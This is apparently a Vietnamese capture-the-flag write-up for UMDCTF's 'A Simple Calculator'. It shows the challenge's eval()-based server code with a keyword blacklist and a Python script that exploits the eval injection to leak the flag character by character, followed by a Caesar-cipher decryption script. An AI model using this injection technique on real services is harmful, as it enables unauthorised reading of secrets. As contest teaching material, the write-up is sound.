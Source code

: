 # UMDCTF - A Simple Calculator

*source code*: https://drive.google.com/file/d/1H-VvvdStKw6ReLB2BXHYw9Zu4YLb6qIy/view?usp=sharing

## Review source code
```python
# .....
from secrets import flag_enc, ws
#....
def z(f: str):
    for w in ws:
        if w in f:
            raise Exception("nope")
    return True
# .....
@app.route('/calc', methods=['POST'])
def calc():
    val = 0
    try:
        z(request.json['f'])
        val = f"{int(eval(request.json['f']))}"
# .....
```
File `secrets.py` có chứa `flag_enc` và `ws` được import vào `app.py`. `ws` có chứa các blacklist keyword đã được dấu trước khi public source-code. Server nhận f parameter đi qua hàm z, nếu trùng với blacklist thì sẽ trả về lỗi còn nếu không thì được đi vào `eval()`. 

Fuzz qua thì biết được hàm `ord()` và một số kí tự khác như `\` bị block nên không thể bypass hàm `z` hay đọc result dạng từng số ascii nên ta sẽ brute-force `flag_enc` bằng cách cắt ra từng kí tự rồi so sánh từng cái thôi. 

**Python scripts**: Brute-force encrypted flag
```python
import requests
import string

url = 'https://calculator-w78ar.ondigitalocean.app/'
characters = string.ascii_letters + string.digits + string.punctuation
# val = f"{int(eval(request.json['f']))}"

flag = ''
for i in range(len(flag), 100):
    for c in characters:
        json = {
            "f": f"flag_enc[{i}:{i+1}] == '{c}'"
        }
        
        r = requests.post(url+'calc', json=json)
        result = r.json()['result']
        print(flag+c)
        
        if result == '1':
            flag += c
            print('[FOUND] : ' + flag)
            if c == '}':
                exit('done!')
            break
```

**encrypted flag**: `OGXWNZ{q0q_vlon3z0lw3cha_4wno4ffs_q0lem!}`

Flag nhận được đã bị encrypt bằng hàm `encrypt()` trong file `secrets.py`. 

**Python scripts**: Decrypt encrypted flag
```python
FLAG = 'OGXWNZ{q0q_vlon3z0lw3cha_4wno4ffs_q0lem!}'

def encrypt(text: str, key: int):
    result = ''
    for c in text:
        if c.isupper():
            c_index = ord(c) - ord('A')
            c_shifted = (c_index + key) % 26 + ord('A')
            result += chr(c_shifted)
        elif c.islower():
            c_index = ord(c) - ord('a')
            c_shifted = (c_index + key) % 26 + ord('a')
            result += chr(c_shifted)
        elif c.isdigit():
            c_new = (int(c) + key) % 10
            result += str(c_new)
        else:
            result += c
    return result
    
def reverse(c, er):
    a = ord(c) - ord(er)
    if a >= key:
        result = a - key + ord(er)
    else:
        result = a + 26 - key + ord(er)
    return chr(result)
    
def decrypt(text: str, key: int):
    result = ''
    for c in text:
        if c.isupper():
            result += reverse(c, 'A')
        elif c.islower():
            result += reverse(c, 'a')
        elif c.isdigit():
            c_new = (int(c) + key) % 10
            result += str(c_new)
        else:
            result += c
    return result
    
def find_key():
    for i in range(100):
        if encrypt('UMDCTF', i) == 'OGXWNZ':
            return i
            
key = find_key()
print(f'[KEY FOUND] : ' + str(key))

flag_dec = decrypt(FLAG, key)
flag_enc = encrypt(flag_dec, key)

print(flag_dec)
print(flag_enc)
```
**Hoặc**:
![unknown](https://user-images.githubusercontent.com/71699412/157073116-d26b0f75-c3be-413f-96af-243932de5519.png)

**flag**: `UMDCTF{w0w_brut3f0rc3ing_4ctu4lly_w0rks!}`
